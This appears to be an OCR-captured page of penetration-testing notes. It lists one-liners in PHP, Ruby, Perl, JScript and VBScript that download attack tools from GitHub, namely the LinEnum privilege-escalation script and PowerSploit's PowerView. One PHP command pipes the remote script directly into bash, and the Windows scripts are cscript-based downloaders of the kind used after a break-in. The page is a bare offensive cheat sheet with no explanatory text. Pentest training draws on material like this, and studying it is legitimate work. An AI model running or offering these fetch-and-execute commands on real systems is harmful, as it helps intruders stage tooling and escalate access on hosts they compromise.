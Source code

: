 - php
```php
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```
```php
php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

```php
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

```ruby
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

```perl
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```
- javascript create a file like this 
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));

```

- then run
```javascript
cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

- vbscript save a file
```powershell
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```
- then execute (windows)
```cmd
cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```
